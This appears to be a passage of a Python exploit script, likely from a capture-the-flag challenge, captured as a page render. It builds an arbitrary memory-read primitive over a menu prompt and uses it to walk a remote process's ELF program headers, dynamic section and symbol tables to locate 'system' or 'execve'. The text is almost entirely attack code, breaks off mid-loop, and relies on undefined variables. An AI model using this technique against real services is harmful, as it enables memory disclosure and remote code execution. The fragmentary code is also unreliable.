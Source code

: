 ```python
bits = 64
PIE = 0

def leak(addr,size=8):
    s.sendlineafter(" >",str(1))
    s.sendlineafter(" [#] Enter Where: ",str(addr))
    s.recvline()
    val = s.recv(size)
    return val

def findPhdr(addr):
   if bits == 32:
      e_phoff = u32(leak(addr + 0x1c, wordSz).ljust(4, '\0'))
   else:
      e_phoff = u64(leak(addr + 0x20, wordSz).ljust(8, '\0'))
   return e_phoff + addr

def findDynamic(Elf32_Phdr, moduleBase, bitSz):
   if bitSz == 32:
      i = -32
      p_type = 0
      while p_type != 2:
         i += 32
         p_type = u32(leak(Elf32_Phdr + i, wordSz).ljust(4, '\0'))
      return u32(leak(Elf32_Phdr + i + 8, wordSz).ljust(4, '\0')) + PIE
   else:
      i = -56
      p_type = 0
      while p_type != 2:
         i += 56
         p_type = u64(leak(Elf32_Phdr + i, hwordSz).ljust(8, '\0'))
      return u64(leak(Elf32_Phdr + i + 16, wordSz).ljust(8, '\0')) + PIE

def findDynTable(Elf32_Dyn, table, bitSz):
   p_val = 0
   if bitSz == 32:
      i = -8
      while p_val != table:
         i += 8
         p_val = u32(leak(Elf32_Dyn + i, wordSz).ljust(4, '\0'))
      return u32(leak(Elf32_Dyn + i + 4, wordSz).ljust(4, '\0'))
   else:
      i = -16
      while p_val != table:
         i += 16
         p_val = u64(leak(Elf32_Dyn + i, wordSz).ljust(8, '\0'))
      return u64(leak(Elf32_Dyn + i + 8, wordSz).ljust(8, '\0'))


def findSymbol(strtab, symtab, symbol, bitSz):
   if bitSz == 32:
      i = -16
      while True:
         i += 16
         st_name = u32(leak(symtab + i, 2).ljust(4, '\0'))
         if leak( strtab + st_name, len(symbol)+1 ).lower() == (symbol.lower() + '\0'):
            return u32(leak(symtab + i + 4, 4).ljust(4, '\0'))
   else:
      #i =0x17b8
      #i = 0x7f50 # system
      i = 0x8730 # execve
      while True:
         i += 24
```